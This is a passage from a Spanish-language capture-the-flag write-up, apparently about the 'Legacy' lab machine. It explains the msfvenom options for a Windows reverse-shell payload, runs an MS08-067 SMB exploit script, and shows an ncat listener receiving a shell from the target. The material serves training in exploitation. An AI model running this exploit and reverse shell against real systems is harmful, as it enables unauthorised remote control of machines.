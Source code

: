 ``` text
"\x33\x3b\xb3\x9b\xb3\x44\xa9\x3b\x3b\x9f\x69\x5b\xde\x35\x84"
"\xf4\x47\xdc\x25\x99\x77\x0b\x69\xa4\xfb\xb9\x12\x53\xe3\xc8"
"\x17\x1f\xa3\x21\x6a\x30\x46\x45\xd9\x31\x43\x45\xdd\xcd\x6c";
```

- `-p windows/shell_reverse_tcp` Seleccionamos como payload, que vamos a realizar una reverse shell tcp inline de windows
- `LHOST=10.10.14.26 LPORT=3001 EXITFUNC=thread` Como opciones del payload, definimos el host, el puerto y muy importante, el método de salida para no bloquear accesos posteriores
- `-b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40"` En esta parte definimos los badchars o los caracteres que no podemos transmitir sobre la red sin romper la comunicación
- `-nopsled 7` le agregfamos 7 NOP al inicio
- `-f c` El formato de salida es tipo lenguaje C
- `-e x86/jmp_call_additive` Seleccionamos el tipo de encoding jmp call additive para hacerlo mas acertado a la estructura ROP que se genera en el exploit
- `-a x86` La arquitectura destino es x86
- `--platform windows` La plataforma donde funcionara es windows.

Usar una reverse shell es menos ruidosa que subir todo meterpreter y levantar alarmas.

Sustituimos la salida en el script de python, levantamos un ncat y lanzamos el script:

``` text
xbytemx@laptop:~/git/ms08_067$ python2 ms08_067_2018.py 10.10.10.4 7 445
#######################################################################
#   MS08-067 Exploit
#   This is a modified verion of Debasis Mohanty's code (https://www.exploit-db.com/exploits/7132/).
#   The return addresses and the ROP parts are ported from metasploit module exploit/windows/smb/ms08_067_netapi
#
#   Mod in 2018 by Andy Acer:
#   - Added support for selecting a target port at the command line.
#     It seemed that only 445 was previously supported.
#   - Changed library calls to correctly establish a NetBIOS session for SMB transport
#   - Changed shellcode handling to allow for variable length shellcode. Just cut and paste
#     into this source file.
#######################################################################

Windows XP SP3 English (AlwaysOn NX)

[-]Initiating connection
[-]connected to ncacn_np:10.10.10.4[\pipe\browser]
Exploit finish
```

En la remota:

``` text
xbytemx@laptop:~$ ncat -vnlp 3001
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::3001
Ncat: Listening on 0.0.0.0:3001
Ncat: Connection from 10.10.10.4.
Ncat: Connection from 10.10.10.4:1029.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
C:\WINDOWS\system32>systeminfo
systeminfo

Host Name:                 LEGACY
OS Name:                   Microsoft Windows XP Professional
OS Version:                5.1.2600 Service Pack 3 Build 2600
OS Manufacturer:           Microsoft Corporation
```